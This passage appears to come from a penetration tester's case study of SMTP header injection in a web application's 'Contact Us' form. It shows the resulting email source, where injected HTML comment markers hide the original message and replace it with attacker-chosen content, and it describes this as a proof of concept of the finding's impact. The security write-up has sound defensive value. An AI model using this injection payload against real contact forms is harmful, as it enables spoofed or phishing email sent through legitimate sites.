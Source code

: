 Viewing the source shows how everything is commented out by the injected comment block characters:

```html
<!--
MIME-Version: 1.0
Content-Type: multipart/mixed; 
    boundary=&quot;----=_Part_2337_1756916918.30493762935&quot;
X-Mailer: sendmsg

------=_Part_2337_1756916918.30493762935
Content-Type: text/html; charset=utf-8
Content-Transfer-Encoding: 7bit
<html>
    <head>
        <style>
        body {
            font-family: Calibri,sans-serif;
        }
        </style>
    </head>
    <body>
        Message from the Contact Us page from TheCEO. The information requested is:
        <br><br>
        --><meta http-equiv="Content-Type" content="text/html; charset=iso-8859-1"></p><style>p {color:red;}</style><p>finally, everything else is gone</p><!--
    </body>
</html>
------=_Part_2337_1756916918.30493762935--
```


This showed how to fine-tune the payload for a SMTP Header Injection found in this web application, to completely take control of and modify the message in the email sent through the app's "Contact Us" page. This proof-of-concept, as well as that in the previous Case Study, helped to show the implications of the vulnerability, rather than just simply showing that some arbitrary data could be injected with or without an actual effect.

